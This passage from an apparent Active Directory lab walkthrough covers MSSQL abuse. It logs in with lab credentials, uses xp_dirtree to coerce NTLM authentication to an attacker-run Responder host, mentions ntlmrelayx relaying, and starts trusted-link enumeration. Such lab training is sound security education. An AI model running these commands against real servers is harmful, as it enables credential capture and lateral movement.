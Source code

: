- Connect with hodor (0 privilèges)
```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/hodor:hodor@castelblack.north.sevenkingdoms.local
```

- run a xp_dirtree command :
```
xp_dirtree \\192.168.56.118\demontlm
```

- And we get a connection back to our responder
![screenshot](pics/responder_xp_dirtree.png)

- This will work also with ntlmrelayx (like with a server running as administrator and with the same password on other servers). But on the lab, this kind of behavior is not setup by now.

### trusted links

- Another SQL abuse we could try on the lab, is the usage of mssql trusted links.

> Note that trusted link is also a forest to forest technique

- To abuse the links let’s connect with jon.snow and use enum_links
```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local -show

SQL (NORTH\jon.snow  dbo@master)> enum_links
```

![screenshot](pics/mssql_enum_links.png)
